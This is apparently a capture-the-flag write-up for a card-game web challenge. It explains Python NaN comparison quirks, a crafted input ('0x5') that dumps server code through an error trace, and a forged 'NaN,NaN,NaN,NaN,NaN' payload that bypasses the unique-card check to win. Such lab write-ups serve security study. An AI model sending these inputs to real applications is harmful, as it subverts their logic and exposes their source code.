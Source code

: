 ## Objective


## Solution

#### Trigger an error
- Trigger an error by injecting hex data 0x5


#### NaN concepts 0
- NaN (Not a Number) is a special value representing missing or undefined Python data.

#### NaN concepts 1
- ```float(str)``` can process a string "NaN" without any error
- When addedd or multiplied or some other operation is performed with the ```nan``` it is nan which wins
```python
small = float("NaN")
big = float(999.999)

print(big>small)
```
```output
>False
```
#### NaN concepts 2

```python
boo = float("NaN")
if boo == "NaN":
    print("Got a NaN")
else:
    print("There is no NaN? What is the the value of boo?")
    print(boo)
```
```
>There is no NaN? What is the the value of boo?
>nan
```

#### NaN injection example PoC
- The code below is supposed to store 5 unique numbers
- We can enter ```NaN``` 5 times and at the end of the execution the entire list will have 5 ```nan``` values
```python3
def get_unique_numbers():
    unique_numbers = set()

    while len(unique_numbers) < 5:
        try:
            user_input = int(input(f"Enter unique number {len(unique_numbers) + 1}: "))
            if user_input in unique_numbers:
                print("Number already entered. Please enter a unique number.")
            else:
                unique_numbers.add(user_input)
        except ValueError:
            print("Invalid input. Please enter a valid number.")

    return list(unique_numbers)

if __name__ == "__main__":
    unique_numbers_list = get_unique_numbers()
    print("You entered the following unique numbers:", unique_numbers_list)
```

#### Dump code via error stacktrace

- Trigger an error that will dump the code
```
{"play":"0x5,6,7,8,9"}
```

#### Vulnerable code analysis
```python3
# Error in function named play_cards:
....
        for row in reader:
            for n in row:
                n = float(n) #----------> Inject NaN here
                if is_valid_whole_number_choice(n) and n not in [x['num'] for x in player_cards]:
                    player_cards.append({
                        'owner': 'p',
                        'num': n
                    })
            break

        #-----------> Bypass the check here
        if len(player_cards) != 5:
            return jsonify({
                "request": False,
                "data": f"Requires 5 unique values but was given \"{csv_card_choices}\""
            })
....
        
        maxItem = False
        minItem = False

        #-----------> NaN magic here
        if bool(len(all_cards)):
            maxItem = max(all_cards, key=lambda x: x['num'])
            minItem = min(all_cards, key=lambda x: x['num'])

....
```

#### Forge for the win
- Send JSON data as NaN for all the cards number
- We would bypass the unique card check due the the concept 2 above
- 
```json
{"play":"NaN,NaN,NaN,NaN,NaN"}
```
- For every successful response replace the old cookie with the new cookie
- Once the score reached 10 we would get the win success hash in our response
```json
{
   "data":{
      "conduit":{
         "hash":"a2a6c9bcc95608962d98d885e847c08e36908e00048cedf000fd259bd02e6f61",
         "resourceId":"b5187f3e-8cd5-48c3-9796-001f332ea558"
      },
      "maxItem":{
         "num":"NaN",
         "owner":"p"
      },
      "minItem":{
         "num":"NaN",
         "owner":"p"
      },
      "play_message":"Darn, how did I lose that hand!",
      "player_cards":[
         {
            "num":"NaN",
            "owner":"p"
         },
         {
            "num":"NaN",
            "owner":"p"
         },
         {
            "num":"NaN",
            "owner":"p"
         },
         {
            "num":"NaN",
            "owner":"p"
         },
         {
            "num":"NaN",
            "owner":"p"
         }
      ],
      "player_score":0,
      "score_message":"Darn, you win!",
      "shifty_score":0,
      "shiftys_cards":[
         {
            "num":0.0,
            "owner":"s"
         },
         {
            "num":9.0,
            "owner":"s"
         }
      ],
      "win_lose_tie_na":"w"
   },
   "request":true
}
```
